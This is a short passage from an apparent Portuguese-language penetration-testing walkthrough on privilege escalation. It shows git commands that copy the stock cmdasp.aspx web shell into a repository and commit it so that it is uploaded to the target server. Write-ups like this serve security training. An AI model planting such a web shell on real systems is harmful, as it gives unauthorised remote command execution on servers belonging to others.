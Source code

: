     Em seguida, criamos um novo branch com o comando `git checkout -b shell` no diretório spectral.
    
    ![Bildschirmfoto 2024-03-05 um 22.07.04.png](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Bildschirmfoto_2024-03-05_um_22.07.04.png)
    
    Em seguida, podemos copiar um shell ASPX simples para nosso diretório atual e fazer o upload do novo arquivo para o servidor.
    
    `cp /usr/share/webshells/aspx/cmdasp.aspx .
    git add .
    git commit -m 'updated with shell'`
    
    ![Bildschirmfoto 2024-03-05 um 22.08.07.png](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Bildschirmfoto_2024-03-05_um_22.08.07.png)
    